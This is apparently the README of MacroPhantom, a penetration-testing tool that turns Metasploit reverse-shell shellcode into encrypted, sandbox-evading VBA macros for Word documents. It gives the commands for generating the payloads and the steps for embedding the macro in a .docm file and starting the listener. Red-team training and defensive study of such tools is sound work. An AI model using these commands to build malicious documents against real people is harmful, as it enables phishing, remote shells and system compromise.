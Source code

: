 # MacroPhantom

<p align="center">
  <img src="https://img.shields.io/badge/Version-1.0-brightgreen" alt="Version">
  <img src="https://img.shields.io/badge/Language-Python%203-blue" alt="Language">
  <img src="https://img.shields.io/badge/Platform-Windows%20%7C%20Linux%20%7C%20macOS-orange" alt="Platform">
  <img src="https://img.shields.io/badge/License-MIT-lightgrey" alt="License">
</p>

<p align="center">
  <b>MacroPhantom</b> is an advanced VBA payload generator that creates encoded and obfuscated shellcode for Microsoft Office macros.
</p>

<p align="center">
  <a href="https://xbz0n.sh"><img src="https://img.shields.io/badge/Blog-xbz0n.sh-red" alt="Blog"></a>
</p>

---

## Overview

MacroPhantom automates the process of generating XOR+Caesar encrypted shellcode and embedding it into VBA macros for Microsoft Office documents. The tool streamlines the workflow for security professionals during penetration tests and security assessments, particularly for phishing simulations.

## Features

- **Self-contained** - All functionality consolidated in a single Python script
- **XOR and Caesar-based encoding** - Dual-layer shellcode encryption
- **Anti-sandbox techniques** - Sleep timer and other evasion methods
- **Cross-version compatibility** - Support for both modern and legacy Word
- **Customizable encoding** - Adjustable XOR and Caesar cipher keys
- **Metasploit integration** - Automatic handler generation

## Version Compatibility

| Word Version | Compatibility | Feature Support |
|--------------|---------------|-----------------|
| Word 2003-2007 | ✅ (legacy mode) | Basic evasion |
| Word 2010-2016 | ✅ | Full evasion, PtrSafe declarations |
| Word 2019-2021 | ✅ | Full evasion, PtrSafe declarations |
| Microsoft 365 | ✅ | Full evasion, PtrSafe declarations |

## Requirements

- Python 3.8 or higher
- Metasploit Framework
- Mono (for Linux/macOS users)

## Installation

```bash
# Clone the repository
git clone https://github.com/xbz0n/MacroPhantom.git
cd MacroPhantom

# Ensure the script is executable
chmod +x MacroPhantom.py
```

## Usage

### Basic Usage

```bash
# Generate macros for modern Word versions (2010+)
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444
```

### Advanced Options

```bash
# Generate macros for legacy Word versions (2003-2007)
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444 --legacy

# Use custom encoding keys
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444 --xor-key 123 --add-key 5

# Use a different payload
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444 --payload windows/meterpreter/reverse_tcp

# Specify an output directory
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444 --output-dir /path/to/output
```

## Command Line Options

| Option | Description | Default |
|--------|-------------|---------|
| `--LHOST` | IP address to listen on (required) | - |
| `--LPORT` | Port to listen on (required) | - |
| `--payload` | Metasploit payload to use | windows/meterpreter/reverse_https |
| `--xor-key` | XOR key value (0-255) | 250 (0xFA) |
| `--add-key` | Additive key value | 2 |
| `--legacy` | Generate macros for Word 2007 and earlier | False |
| `--output-dir` | Directory to save generated files | Current directory |

## Workflow

1. The tool generates shellcode using msfvenom with your specified parameters
2. It uses a C# program to encrypt the shellcode with XOR and Caesar ciphers
3. The encrypted shellcode is embedded into a VBA macro template
4. The tool creates a Metasploit resource file for handling the connection

## Demo Output

After successful execution, you'll see output similar to this:

```
[*] Checking requirements...
[+] Python version: OK
[+] Metasploit Framework: OK
[+] Mono: OK
[*] Generating shellcode with msfvenom...
[+] Shellcode generated and saved to shellcode.txt
[*] Encoding shellcode...
[+] C# encoder created at Encoder.cs
[+] C# encoder compiled to Encoder.exe
[+] Shellcode encoded successfully
[*] Generating Word VBA macros...
[+] VBA macro code generated at macro_payload.txt
[*] Creating Metasploit handler script...
[+] Metasploit handler script created at handler.rc
[*] Run with: msfconsole -r handler.rc

[*] Word Compatibility: The generated macros are compatible with Word 2010-2021 and Microsoft 365

[+] All files generated successfully in .
[*] Next steps:
  1. Copy the VBA code from macro_payload.txt
  2. Open Microsoft Word, press Alt+F11 to open the VBA editor
  3. Insert a new module under 'Normal' project
  4. Paste the code and save as a macro-enabled document (.docm)
  5. Start the Metasploit handler with: msfconsole -r handler.rc
```

## Using the Generated Macro

1. Copy the VBA code from the generated macro file
2. Open Microsoft Word
3. Press Alt+F11 to open the VBA editor
4. Insert a new module under the 'Normal' project
5. Paste the code
6. Save as a macro-enabled document (.docm)
7. Start the Metasploit handler with: `msfconsole -r handler.rc`

## Security Considerations

- This tool is for educational purposes and authorized testing only
- Always obtain proper permission before performing any penetration testing
- The macros generated may be detected by security software
- Use responsibly and legally

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## Author

- **Ivan Spiridonov (xbz0n)** - [Blog](https://xbz0n.sh) | [GitHub](https://github.com/xbz0n)

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

- Special thanks to the penetration testing community for inspiration
- Made for OSEP certification challenges
